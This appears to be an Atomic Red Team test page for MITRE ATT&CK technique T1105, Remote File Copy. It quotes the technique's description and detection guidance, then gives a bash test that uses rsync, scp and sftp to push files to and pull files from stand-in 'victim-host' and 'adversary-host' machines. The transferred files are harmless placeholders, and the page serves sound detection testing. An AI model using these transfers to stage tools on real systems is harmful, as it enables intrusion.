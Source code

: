 # T1105 - Remote File Copy
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1105)
<blockquote>Files may be copied from one system to another to stage adversary tools or other files over the course of an operation. Files may be copied from an external adversary-controlled system through the Command and Control channel to bring tools into the victim network or through alternate protocols with another tool such as FTP. Files can also be copied over on Mac and Linux with native tools like scp, rsync, and sftp.

Adversaries may also copy files laterally between internal victim systems to support Lateral Movement with remote Execution using inherent file sharing protocols such as file sharing over SMB to connected network shares or with authenticated connections with Windows Admin Shares or Remote Desktop Protocol.

Detection: Monitor for file creation and files transferred within a network over SMB. Unusual processes with external network connections creating files on-system may be suspicious. Use of utilities, such as FTP, that does not normally occur may also be suspicious.

Analyze network data for uncommon data flows (e.g., a client sending significantly more data than it receives from a server). Processes utilizing the network that do not normally have network communication or have never been seen before are suspicious. Analyze packet contents to detect communications that do not follow the expected protocol behavior for the port that is being used. (Citation: University of Birmingham C2)

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Packet capture, Process use of network, Netflow/Enclave netflow, Network protocol analysis, Process monitoring

Permissions Required: User

Requires Network: Yes</blockquote>

## Atomic Tests

- [Atomic Test #1 - rsync - scp - sftp remote file copy](#atomic-test-1---rsync---scp---sftp-remote-file-copy)


<br/>

## Atomic Test #1 - rsync - scp - sftp remote file copy
Utilize rsync, scp and sftp to perform a remote file copy

**Supported Platforms:** Linux, macOS


#### Run it with `bash`!
```
### FIX: Not sure how to handle commands that need to be run on multiple systems

# Adversary System Configuration
# Ensure SSH access has been configured for an adversary account
echo "This file transferred by scp" > /tmp/adversary-scp
echo "This file transferred by sftp" > /tmp/adversary-sftp
mkdir /tmp/adversary-rsync
cd /tmp/adversary-rsync
touch a b c d e f g

# Victim System Configuration
# Ensure SSH access has been configured for a victim account
# Ensure write access for victim account to this directory
mkdir /tmp/victim-files
cd /tmp/victim-files

# Push files to victim using rsync
rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

# Pull files from adversary using rsync
rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

# Push files to victim using scp
scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

# Pull file from adversary using scp
scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

# Push files to victim using sftp
sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

# Pull file from adversary using sftp
sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file
```
<br/>
